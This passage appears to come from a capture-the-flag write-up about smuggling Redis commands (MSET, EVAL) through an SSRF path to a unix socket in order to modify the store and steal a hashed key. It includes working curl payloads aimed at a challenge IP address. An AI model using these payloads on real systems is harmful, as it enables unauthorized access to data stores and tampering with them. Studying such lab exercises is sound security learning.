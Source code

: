 To break this down (simply (again go read the article)).
- `MSET` is being used as a command set several key value pairs, which works with all the extra junk data in the HTTP line.
- As the unix socket is attached, our request is sent like this to Redis (approx.):
```
MSET img:100 "true" .backend.wbc/test
HTTP/1.0
Host: localhost
Connection: close
```

These further lines don't matter, we can now check the key.

```bash
$ curl 'http://3.105.27.130:8000/api/img/100'
true
```

We have now modified the Redis store! Alright, so how do we steal the HSET key value?

### Redis is weird

To acknowledge the elephant in the room, what is HSET vs SET. In essence (from my poor Redis understanding), it is just another way of storing information inside Redis (hashed store vs store) and general 'GET' cannot access hashed store values.

This is why earlier in the codebase we can't just use existing calls like `r.get`.

## EVALing to victory

Further down in the article, `EVAL` is used to use arbitrary Redis commands, to start with I try to set a value in the store using eval, and this payload works!

Firstly, starting with `img:999` GET:
```bash
$ curl 'http://3.105.27.130:8000/api/img/999'
Request failed with status code 404
```

Then, the EVAL:
```bash
$ curl -X EVAL "http://3.105.27.130:8000/api/v1/http://backend.wbc/unix:%2fredis%2fredis.sock:%22return%20redis%2ecall('set','img%3A999',1)%22%200%20/test
Request failed with status code 502
```

This breaks down to:
```
EVAL "return redis.call('set','img:999',1)" 0 .backend.wbc/test HTTP/1.0
Host: localhost
Connection: close
```
The ` 0 ` (`%200%20`) at the end is to terminate all further things after the EVAL as it determines the number of arguments after the script.

Then, refetching the `img:999`:
```bash
$ curl 'http://3.105.27.130:8000/api/img/999'
1
```
